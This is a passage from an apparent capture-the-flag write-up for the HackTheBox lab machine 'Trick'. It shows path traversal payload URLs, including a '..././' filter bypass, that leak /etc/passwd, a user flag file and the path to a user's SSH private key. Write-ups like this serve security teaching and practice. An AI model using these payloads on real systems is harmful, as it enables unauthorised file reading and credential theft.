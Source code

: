 This looked like a candidate for directory traversal. Already knowing (from the errors showing ``/var/www/payroll/admin_class.php``) that this was probably being read from a directory like ``/var/www/marketing/index.php``, I tried using directory traversal tricks going (at least) three directories up:

- http://preprod-marketing.trick.htb/index.php?page=../../../../../../etc/passwd
- http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././etc/passwd 

And that did it! The second attempt was enough to leak ``/etc/passwd``:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:112:121::/var/lib/saned:/usr/sbin/nologin colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false sshd:x:118:65534::/run/sshd:/usr/sbin/nologin postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin bind:x:120:128::/var/cache/bind:/usr/sbin/nologin michael:x:1001:1001::/home/michael:/bin/bash 
```

Well hello there, **michael**. Are you the target?

As it turns out, michael is definitely the target. Or at least, they have the flag:

```
http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././home/michael/user.txt
```

Wonderful! 



## Foothold

If I can access michael's home directory (and ssh is open) there's a good chance I can also access michael's ssh key. Taking a guess at the typical location of the ssh key worked perfectly:

```
http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa
```
